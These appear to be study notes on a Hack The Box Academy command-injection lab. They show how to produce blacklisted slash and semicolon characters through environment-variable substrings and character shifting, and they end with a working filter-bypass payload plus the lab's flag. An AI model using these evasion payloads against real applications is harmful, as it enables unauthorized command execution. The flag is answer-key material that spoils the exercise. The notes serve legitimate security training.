﻿Besides injection operators and space characters, a very commonly blacklisted character is the slash (`/`) or backslash (`\`) character, as it is necessary to specify directories in Linux or Windows. We can utilize several techniques to produce any character we want while avoiding the use of blacklisted characters.

---

## Linux

There are many techniques we can utilize to have slashes in our payload. One such technique we can use for replacing slashes (`or any other character`) is throughÂ `Linux Environment Variables`Â like we did withÂ `${IFS}`. WhileÂ `${IFS}`Â is directly replaced with a space, there's no such environment variable for slashes or semi-colons. However, these characters may be used in an environment variable, and we can specifyÂ `start`Â andÂ `length`Â of our string to exactly match this character.

For example, if we look at theÂ `$PATH`Â environment variable in Linux, it may look something like the following:

```shell-session
smoothment@htb[/htb]$ echo ${PATH}

/usr/local/bin:/usr/bin:/bin:/usr/games
```

So, if we start at theÂ `0`Â character, and only take a string of lengthÂ `1`, we will end up with only theÂ `/`Â character, which we can use in our payload:


```shell-session
smoothment@htb[/htb]$ echo ${PATH:0:1}

/
```

```ad-note
**Note:**Â When we use the above command in our payload, we will not addÂ `echo`, as we are only using it in this case to show the outputted character.
```

We can do the same with theÂ `$HOME`Â orÂ `$PWD`Â environment variables as well. We can also use the same concept to get a semi-colon character, to be used as an injection operator. For example, the following command gives us a semi-colon:


```shell-session
smoothment@htb[/htb]$ echo ${LS_COLORS:10:1}

;
```

Exercise: Try to understand how the above command resulted in a semi-colon, and then use it in the payload to use it as an injection operator. Hint: TheÂ `printenv`Â command prints all environment variables in Linux, so you can look which ones may contain useful characters, and then try to reduce the string to that character only.

So, let's try to use environment variables to add a semi-colon and a space to our payload (`127.0.0.1${LS_COLORS:10:1}${IFS}`) as our payload, and see if we can bypass the filter:Â 

![Filter Operator](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_spaces_5.jpg)

As we can see, we successfully bypassed the character filter this time as well.

---

## Windows

The same concept works on Windows as well. For example, to produce a slash inÂ `Windows Command Line (CMD)`, we canÂ `echo`Â a Windows variable (`%HOMEPATH%`Â ->Â `\Users\htb-student`), and then specify a starting position (`~6`Â ->Â `\htb-student`), and finally specifying a negative end position, which in this case is the length of the usernameÂ `htb-student`Â (`-11`Â ->Â `\`) :

```cmd-session
C:\htb> echo %HOMEPATH:~6,-11%

\
```

We can achieve the same thing using the same variables inÂ `Windows PowerShell`. With PowerShell, a word is considered an array, so we have to specify the index of the character we need. As we only need one character, we don't have to specify the start and end positions:

```powershell-session
PS C:\htb> $env:HOMEPATH[0]

\


PS C:\htb> $env:PROGRAMFILES[10]
PS C:\htb>
```

We can also use theÂ `Get-ChildItem Env:`Â PowerShell command to print all environment variables and then pick one of them to produce a character we need.Â `Try to be creative and find different commands to produce similar characters.`

---

## Character Shifting

There are other techniques to produce the required characters without using them, likeÂ `shifting characters`. For example, the following Linux command shifts the character we pass byÂ `1`. So, all we have to do is find the character in the ASCII table that is just before our needed character (we can get it withÂ `man ascii`), then add it instead ofÂ `[`Â in the below example. This way, the last printed character would be the one we need:

```shell-session
smoothment@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
smoothment@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```

We can use PowerShell commands to achieve the same result in Windows, though they can be quite longer than the Linux ones.

Exercise: Try to use the the character shifting technique to produce a semi-colonÂ `;`Â character. First find the character before it in the ascii table, and then use it in the above command.

# Question
---

![Pasted image 20250205141832.png](../../../../IMAGES/Pasted%20image%2020250205141832.png)

We can do the following payload:

```
127.0.0.1%0als${IFS}${PATH:0:1}home
```

```ad-important
#### Breakdown
---
### **Explanation**

1. **`%0a`**: New-line character to terminate the original command (e.g.,Â `ping 127.0.0.1`) and inject a new command.
    
2. **`ls`**: Command to list directories.
    
3. **`${IFS}`**: Replaces the space betweenÂ `ls`Â and the directory path.
    
4. **`${PATH:0:1}`**: Extracts the first character (`/`) from theÂ `PATH`Â environment variable.
    
5. **`home`**: Appended toÂ `${PATH:0:1}`Â to formÂ `/home`.
```

We'll see the following payload:

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.012 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.012/0.012/0.012/0.000 ms
1nj3c70r
```

Answer is `1nj3c70r`
